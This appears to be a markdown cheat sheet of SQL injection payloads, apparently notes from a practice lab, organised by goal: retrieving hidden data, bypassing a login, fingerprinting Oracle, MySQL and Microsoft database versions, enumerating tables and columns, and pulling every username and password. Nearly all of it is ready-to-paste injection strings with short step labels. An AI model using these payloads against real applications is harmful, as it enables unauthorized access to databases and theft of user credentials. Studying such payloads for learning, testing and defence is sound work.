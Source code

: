 # SQL Injection Payloads

**Retreive Hidden Data**
  - Modify the query parameter value
```SQL
'+OR+1=1--
```
---
**Login bypass**
  - Modify the user or username parameter
```SQL
administrator'--
```
---
**Oracle database type and version information**
  - Determine the number of columns being returned by the query and which columns contain text data
```SQL
'+UNION+SELECT+'abc','def'+FROM+dual--
```
  - Display the database version information
```SQL
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
---
**MySQL and Microsoft database type and version information**
- Determine the number of columns being returned by the query and which columns contain text data
```SQL
'+UNION+SELECT+'abc','def'#
```
  - Display the database version information
```SQL
'+UNION+SELECT+@@version,+NULL#
```
---
**Listing database contents from other tables on Oracle database**
  - Determine the number of columns being returned by the query and which columns contain text data
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
  - Retrieve the list of tables in the database
```
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
  - Retrive the details of the columns in the table (replace the table name)
```
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```
  - Retrive the username and passwords of all users (replace the table name and the column name)
```
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```
---
